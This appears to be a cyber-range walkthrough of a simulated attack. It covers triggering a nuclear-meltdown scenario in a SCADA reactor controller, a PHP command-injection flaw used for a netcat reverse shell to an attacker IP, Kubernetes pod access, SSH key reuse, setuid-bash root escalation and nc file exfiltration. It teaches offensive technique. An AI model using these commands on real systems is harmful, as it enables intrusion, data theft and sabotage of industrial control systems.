

# Actions On Objectives

- [Actions On Objectives](#actions-on-objectives)
  - [Objective 1: Nuclear Meltdown](#objective-1-nuclear-meltdown)
  - [Host Discovery in the subnet 10.2.1.0/24](#host-discovery-in-the-subnet-1021024)
  - [Remote Command Execution on 10.2.1.2](#remote-command-execution-on-10212)
  - [Local Enumeration - 10.2.1.2](#local-enumeration---10212)
  - [Kubernetes Enumerations](#kubernetes-enumerations)
  - [Local Enumeration - Sensitive Pod](#local-enumeration---sensitive-pod)
  - [Local Enumeration & Privilege Escalation - Data-Master](#local-enumeration--privilege-escalation---data-master)
  - [Objective 2: Exfiltrate critical information on one of the air-gapped networks](#objective-2-exfiltrate-critical-information-on-one-of-the-air-gapped-networks)

----

## Objective 1: Nuclear Meltdown

Recalling the objectives:

> 1. Cause Nuclear Meltdown (detrimental-state)<br/>
> 2. Exfiltrate critical information on one of the air-gapped networks

<br/>

First launch **Reactor Controller** on the **scada-host**:

  

<br/>

With reference to the **Core_Reactor_notes** found on the jump-server, try to cause a Nuclear Meltdown:

```
With access to PCTRAN control panel, the following procedure can replicate 
NUCLEAR MELTDOWN in core's reactor.

Code Control > Malfunctions > set option 12 (Inadvertent Rod Withdrawl)


Modify Delay Time (5)
Failure Fraction (100)
Check the active box 


Then, RUN the application, in 5 seconds, a message "OVERFlow" appears.

CAUTION: Nuclear Meltdown could be achieved by following the above procedure. 
```

  

  

<br/>

The behavior is the same as mentioned in the Core_Reactor_notes, which means we have successfully caused a Nuclear Meltdown.

<br/>
<br/>

## Host Discovery in the subnet 10.2.1.0/24

On the jump-server, perform a simple host discovery using `ping`:

```
for i in {1..254}; do ping 10.2.1.$i -c 1 -w 1 | grep "64 bytes"; done
```

  


<br/>

On the remote desktop, try to access http://10.2.1.2:

  

As shown in the error message, the PHP page uses `system()` call. It is likely to be accepting a parameter.

<br/>

## Remote Command Execution on 10.2.1.2

Try to append `?cmd=id`:

  

As shown, this page is vulnerable to RCE. We can abuse this to obtain a reverse shell.

<br/>

Command:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.100.11 8888 >/tmp/f

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.100.11%208888%20%3E%2Ftmp%2Ff
```

<br/>

Launch a nc listener locally:

```
nc -nlvp 8888
```

<br/>

Then make a request on the remote desktop machine:

```
http://10.2.1.2/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.100.11%208888%20%3E%2Ftmp%2Ff
```

  

<br/>

A reverse shell calls back to the `nc` listener:

  

  

<br/>

## Local Enumeration - 10.2.1.2

Checking the `/etc/hosts` file:

```
cat /etc/hosts
```

  

Note the statement `Kubernetes-managed hosts file` - this is likely to be a pod in Kubernetes.

<br/>

Checking the Kernel version:

```
cat /etc/issue && uname -a
```

  

* Ubuntu 16.04 image
* Kernel: 4.15.0-106-generic

<br/>

Also check the mount:

```
mount
```

  

  

* There is an interesting mount `tmpfs` on `/run/secrets/kubernetes.io/serviceaccount`

<br/>

## Kubernetes Enumerations

First, on the attacker machine, download `kubectl`:

```
curl -LO "https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl"
```

<br/>

Then on the container, download `kubectl`:

```
cd /tmp && curl http://192.168.100.11/kubectl --output kubectl && chmod +x kubectl
```

  

<br/>

Get PODs in the kubernetes cluster:

```
./kubectl get pods
```

  

<br/>

* There is an interesting pod called `sensitive-pod`.

<br/>

To enumerate the action allowed on the current container:

```
./kubectl auth can-i '*' '*' 
```

  

* It means we can do everything in the current namespace.<br/>
(Ref: https://kubernetes.io/docs/reference/generated/kubectl/kubectl-commands)

<br/>

Hence we can access the `sensitive-pod`:

```
./kubectl exec -it sensitive-pod /bin/bash
```

  


<br/>

## Local Enumeration - Sensitive Pod 

Checking the file system related mount on the sensitive pod:

```
mount | grep sda
```

  

* The file system is mounted on `/root`.

<br/>

Checking the `/root` directory, it looks like a `/` directory of a file system.

```
ls -l /root
```

  

<br/>

Checking the files in `/root/home`:

```
ls -lR /root/home/
```

  

- 2 interesting files:
  - /root/home/data-slave/Desktop/ssh/id_rsa
  - /root/home/data-slave/Desktop/ssh/remote_access_info.txt  

<br/>

Inspect **remote_access_into.txt**:

```
cat /root/home/data-slave/Desktop/ssh/remote_access_info.txt  
```

  

It reveals a host and the user:

- host: `data-master`
- user: `data-master`

<br/>

Check the file /root/etc/hosts:

```
cat /root/etc/hosts
```

  

This reveals the IP address of the host `data-master` to be `10.2.1.2`

<br/>

With the SSH private key `/root/home/data-slave/Desktop/ssh/id_rsa`, try to access 10.2.1.2 via SSH:

```
ssh -i /root/home/data-slave/Desktop/ssh/id_rsa data-master@10.2.1.2
```

  

* As shown, we have successfully access `data-master`.

<br/>

## Local Enumeration & Privilege Escalation - Data-Master

Checking the current user directory, there is a file called `cron.sh`. Inspect its content:

```
cat cron.sh
```

  

<br/>

Try to inspect the executable `bash` in the tmp file:

```
ls -la /tmp/bash
```

  

<br/>

By abusing `/tmp/bash`, we can become root:

```
/tmp/bash -p
```

  

<br/>

## Objective 2: Exfiltrate critical information on one of the air-gapped networks

Checking the directory `/root`, there is a file called `Critical-Data.xlsx`:

  

<br/>

Check the MD5 hash of the file:

```
md5sum Critical-Data.xlsx
```

  

* `905fe276a72c005fd6b5063bc6a5c51c`

<br/>

Since `nc` is available, we will use it to exfiltrate the file.

<br/>

First launch a `nc` listener on the local machine:

```
nc -nlvp 1234 > Critical-Data.xlsx && md5sum Critical-Data.xlsx
```

<br/>

Then on the `data-master` machine:

```
nc 192.168.100.11 1234 < Critical-Data.xlsx
```

  

As shown, the critical information has been exfiltrated to the attacker machine.

<br/>

Inspect the content of the file:

  

